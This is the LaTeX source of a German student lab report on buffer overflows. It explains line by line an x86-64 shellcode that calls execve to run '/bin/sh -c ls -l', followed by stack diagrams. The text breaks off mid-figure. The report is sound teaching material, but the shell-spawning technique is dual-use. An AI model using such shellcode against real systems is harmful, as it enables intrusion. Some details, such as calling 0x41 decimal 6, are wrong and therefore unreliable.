\documentclass[12pt]{article}
\parindent0em
\parskip 1ex plus 0.4ex minus 0.4ex

\usepackage[a4paper,vmargin=30mm,hmargin=25mm]{geometry}
\usepackage{polyglossia}
\setdefaultlanguage{german}
\usepackage{fontspec}
\usepackage{lipsum}
\usepackage{xcolor}
\usepackage{listings}
\usepackage{graphicx}

\lstset{escapeinside={<@}{@>}}

\definecolor{lstbackground}{rgb}{0.95,0.95,1}      % hellgruener Rahmen

\lstset{language=Python}

\lstset{
  basicstyle=\small\ttfamily,
  backgroundcolor=\color{lstbackground},
  keywordstyle=\bfseries\ttfamily\color{blue},
  stringstyle=\color{orange!50!black}\ttfamily,
  commentstyle=\color{gray}\ttfamily,
  showstringspaces=false,
  flexiblecolumns=false,
  tabsize=4,
  numbers=left,
  numberstyle=\tiny,
  numberblanklines=true,
  stepnumber=1,
  numbersep=10pt,
  xleftmargin=15pt,
  literate=%
  {Ö}{{\"O}}1
  {Ä}{{\"A}}1
  {Ü}{{\"U}}1
  {ß}{{\ss}}1
  {ü}{{\"u}}1
  {ä}{{\"a}}1
  {ö}{{\"o}}1
  {~}{{\textasciitilde}}1
}

\begin{document}

\begin{center}
  \textbf{\LARGE Sichere Programmierung} \\[1ex]%
  \textbf{\Large Praktikum 3}\\[1ex] %
  \textbf{\Large Buffer Overflows}\\[3ex] %
  Nils Klein \\ %
  (79373) \\[1ex] %
  Alexander Krause \\ %
  (79878) \\[1ex] %
  Abdullah Yildiz \\ %
  (79669) \\[1ex] %
  Dozentin: Corina Hampel \\%
  
\end{center}


\newpage
\setcounter{page}{2}
\tableofcontents

\newpage
\section{Teil 1: Ein interessanter Shellcode}
\subsection{Teil A - Analyse des Shellcodes}

Der Shellcode startet mit der Zeile 1 "bits 64", durch diese Zeile verwenden die Register 64-Bit. In Zeile 6 ist der Einsprungspunkt für den Code "\_start" zu finden. \newline
In Zeile 7 ("xor rcx, rcx") wird ein xor auf das Register \textbf{rcx} mit sich selbst angewendet, dadurch wird der Wert "0x0" geschrieben. Im nächsten Schritt,  Zeile 8 ("push rcx") wird der \textbf{rcx} gepusht, was bedeutet, dass der Wert von \textbf{rcx} in das Register abgelegt und der Stapelzeiger (rsp) aktualisiert wird.\newline
In Zeile 9 ("mov rcx, 0x68732f6e69622fff") wird nun der Hexadezimalwert \newline 
"\textbf{0x68732f6e69622fff}" in das \textbf{rcx} Register geschrieben. Um den Dezimalwert zu erhalten, müssen jeweils immer zwei Hexadezimalwerte betrachtet werden: \textbf{68 73 2f 6e 69 62 2f ff}. Nun kann die Umrechung erfolgen: \newline
"\textbf{104 115 47 110 105 98 47 255}". \newline
Um die Dezimalzahlen in Zeichen umzuwandeln, wird die ASCII-Tabelle benötigt. Jede Zahl steht für ein bestimmtes Zeichen, das Ergebnis: \newline
"hs/nib/ "\newline
Als nächstes wird in Zeile 10 ("shr rcx, 8") ein "shr" (shift right) für das Register \textbf{rcx} mit dem Wert 8 durchgeführt (8-Bit shift right). Beim Hexadezimal shiften muss beachtet werden, dass jeder Hexadezimalwert einen 4-Bit Wert entspricht (z.B. "F => 1111" ). Soll nun ein Shift mit 8-Bit erfolgen, werden nur zwei Hexadezimalwerte geshiftet. Dabei wird links mit 0'en aufgefüllt: \newline
\textbf{0x0068732f6e69622f}.\newline
Dies würde folgenden folgenden Zeichen entsprechen: \newline 
"\textbf{0 104 115 47 110 105 98 47}". \newline
Durch die ASCII-Tabelle können wir die Dezimalwerte in Zeichen umwandeln: \newline
"\textbf{NUL hs/nib/}". \newline
\newline
Wird dieser String umgekehrt, entsteht der folgender String: "\textbf{/bin/sh NUL}".
\newline
Der Grund für die umgekehrte Schreibweise liegt an der Little Endian Notation. Durch den "NUL" im String wird der String terminiert, und wir haben den Pfad der Shell: "\textbf{/bin/sh}". \newline
Bei der Little Endian Notation wird das kleinstwertige Byte an der Anfangsadresse gespeichert, bzw die kleinstwertige Komponente zuerst genannt. Im Gegenteil dazu gibt es noch die Big Endian Notation, auf die wir aber nicht eingehen werden.\newline
\newline
In Zeile 11 ("push rcx") wird der Pfad der Shell (Hexadezimalwert) in den Stack gepusht, und der \textbf{rsp} wird aktualisiert.\newline
In Zeile 12 ("push rsp")  wird der \textbf{rsp} in den Stack gepusht, und der \textbf{rsp} wird aktualisiert.\newline
In Zeile 13 ("pop rdi") wird durch ein "pop" der zuerst auf dem Stack liegende Wert in das \textbf{rdi} Register geschrieben. Nun enthält der \textbf{rsp} den Pfad der Shell. \newline
In Zeile 15 ("xor rcx, rcx") und 16 ("push rcx") wird eine xor-Operation auf das Register \textbf{rcx} mit sich selbst angewendet. Somit wird der Wert 0x0 geschrieben und anschließend in den Stack gepusht. \newline
In Zeile 17 ("push word 0x632d") wird der Wert "\textbf{0x632d}" in den Stack gepusht.´
\newpage
Das würde nach umwandeln in Dezimalwerte, und umwandeln in Zeichen durch die ASCII-Tabelle, folgenden Zeichen entsprechen: "\textbf{c-}". \newline
Das "\textbf{c}" wird durch den Hexadezimalwert "\textbf{63}", und "\textbf{-}" durch "\textbf{2d}" dargestellt. \newline
In Zeile 18 ("push rsp") wird der Inhalt von \textbf{rsp} in den Stack abgelegt (push), und in Zeile 19 ("pop rbx") wird durch ein pop der aktuelle Wert auf dem Stack in das Register \textbf{rbx} geschrieben. \newline
In Zeile 21 ("xor rcx, rcx") und 22 ("push rcx") wird wieder durch eine xor-Operation auf das selbe Register (\textbf{rcx}) der Wert 0x0 geschrieben, und in den Stack gepusht.
In Zeile 23 ("jmp command") wird nun ein "jmp" auf "command" durchgeführt. Dadurch wird die Programmausführung an der Stelle \textbf{command}, Zeile 38 fortgesetzt.\newline
In Zeile 40 ("data: db "ls -lA") wird durch "\textbf{db}" der String "ls -lA" direkt in den Hauptspeicher geschrieben. Die Adresse des Eintrages ist nicht bekannt.
In Zeile 39 ("call execve") wird durch einen \textbf{call} das Unterprogramm "execve" aufgerufen. Das Unterprogramm \textbf{execve} ist in Zeile 25-36 zu finden.
In Zeile 26 ("pop rdx") wird der zuerst auf dem Stapel liegende Wert in \textbf{rdx} geschrieben ("ls -lA").
In Zeile 27 ("push rdx") wird der Wert von \textbf{rdx} in den Stack abgelegt (push).
In Zeile 28 ("xor byte [rdx+5], 0x41") wird eine xor-Operation mit dem fünften Byte des Wertes von \textbf{rdx}, und dem Hexadezimalwert "0x41" durchgeführt. Dieser Hexadezimalwert entspricht im Dezimalsystem dem Wert 6. In der ASCII-Tabelle würde das dem Buchstaben "A" entsprechen. Das fünfte Zeichen im \textbf{rdx} ist das Zeichen "A" von "ls -lA". Durch die xor-Operation wird der Wert \textbf{0x0} geschrieben. \newline
In den Zeilen 29 ("push rbx), 30 ("push rdi") und 31 ("push rsp") werden nun die Werte in den Stack gepusht. Der Wert von \textbf{rbx} ist "ls -l", der Wert von \textbf{rdi} ist die "/bin/sh", der Wert von \textbf{rsp} ist "/bin/sh". \newline
In Zeile 32 ("pop rsi") wird nun der zuerst auf dem Stapel liegende Wert in den \textbf{rsi} geschrieben. \newline
In Zeile 34 ("xor rdx,rdx") wird wieder durch eine xor-Operation auf das selbe Register \textbf{rdx} der Wert 0x0 geschrieben. \newline
In Zeile 35 ("mov al, 59") wird ein \textbf{mov al, 59} durchgeführt. Dies führt dazu, dass die letzten 8-Bit (\textbf{al}) in \textbf{\%ax} überschrieben werden. Würde man 32-Bit verwenden, wäre das \textbf{eax} Register verwendet worden. Da wir 64-Bit verwenden (Zeile 1), wird der \textbf{rax} verwendet. Somit werden die letzten 8-Bits des Registers \textbf{rax} mit dem Wert \textbf{59} überschrieben. \newline
Also enthält nun der \textbf{rax} den System Call Table Code der Funktion \textbf{"sys\_execve"}, da der Wert 59 der Funktion \textbf{"sys\_execve"} entspricht.
\newpage

Die Funktion \textbf{execve} benötigt drei Parameter (Quelle: System Call Table):
\begin{itemize}
\item const char *filename
\item const char *const argv[ ]
\item const char *const envp[ ]
\end{itemize}

Die Register die wir übergeben (Quelle: System Call Table):
\begin{itemize}
\item rdi
\item rsi
\item rdx
\end{itemize}

Die Inhalte der Register (rdi, rsi, rdx):
\begin{itemize}
\item rdi => Pfad "/bin/sh".
\item rsi => Zeiger auf die Werte "/bin/sh", "-c", "ls -l". \newline
Der erste Übergabeparameter (argv[0]) ist die auszuführende Datei. Die restlichen Werte werden als Parameter übergeben.
\item rdx => Nullpointer, keine envp (durch einen Nullpointer wird dieser terminiert).
\end{itemize}

In der letzten Zeile 36 ("syscall"), wird nun die Funktion syscall aufgerufen.
\newpage

\subsection{Teil B - Detaillierte Beschreibung des Shellcodes }

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z7.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z8.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z9.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z10.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z11.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z12.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z13.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z15.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z16.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z17.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z18.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z19.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z21.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z22.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z23-39.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z26.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=16cm]{Praktikum 3/Bilder/Stack/Z27.png}
\end{figure}
\newpage

\begin{figure}[htbp]
    \centering
